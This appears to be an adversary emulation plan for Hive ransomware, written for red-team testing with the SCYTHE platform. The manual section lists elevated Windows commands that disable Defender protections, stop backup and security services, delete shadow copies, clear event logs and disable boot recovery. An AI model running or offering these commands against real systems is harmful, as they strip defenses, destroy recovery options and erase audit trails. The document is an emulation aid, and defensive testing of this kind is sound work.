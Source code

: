 # Hive Ransomware Adversary Emulation Plan

This threat is based on the FBI Flash Alert on August 25,2021: https://www.ic3.gov/Media/News/2021/210825.pdf

## Summary from Cyber Threat Intelligence
Hive ransomware, which was first observed in June 2021 and likely operates as an affiliate-based ransomware, employs a wide variety oftactics, techniques, and procedures (TTPs), creating significant challenges for defense and mitigation. Hive ransomware uses multiple mechanisms to compromise business networks, including phishing emails with malicious attachments to gain access and Remote Desktop Protocol (RDP) to move laterally once on the network.

After compromising a victim network, Hive ransomware actors exfiltrate data and encrypt files on the network. The actors leave a ransom note in each affected directory within a victim’s system, which provides instructions on how to purchase the decryption software. The ransom note also threatens to leak exfiltrated victim data on the Tor site, “HiveLeaks.”

## Emulate with SCYTHE
**Note this threat, if executed with administrative privileges, will disable services, delete Volume Shadow Copies, delete Windows Event Logs, and modify bootup. For testing purposes, you may want to test in non-production, make an offline backup, and/or or take a snapshot.

1. Download and import the threat in JSON format to your SCYTHE instance 
2. Download the Virtual File System (VFS) files under the VFS folder
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/threats/Hive
4. Create a new campaign, selecting HTTPS, and configure your HTTPS communication options.
5. Import from Existing Threat: Hive
6. Launch Campaign
7. Download the EXE and rename it to Winlo_dump_64_SCY.exe

## Emulate Manually
Open an elevated command line interface and run:
- powershell.exe Set-MpPreference -DisableRealtimeMonitoring $true -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend
- sc stop LanmanWorkstation
- sc stop SamSs
- sc stop SDRSVC
- sc stop SstpSVc
- sc stop UI0Detect
- sc stop Vmicvss
- sc stop Vmss
- sc stop VSS
- sc stop Wbengine
- sc stop Unistoresvc
- wmic.exe SHADOWCOPY /nointeractive
- wmic.exe shadowcopy delete
- wevtutil.exe cl system
- wevtutil.exe cl security
- wevtutil.exe cl application
- bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures
- bcdedit.exe /set {default} recoveryenabled norun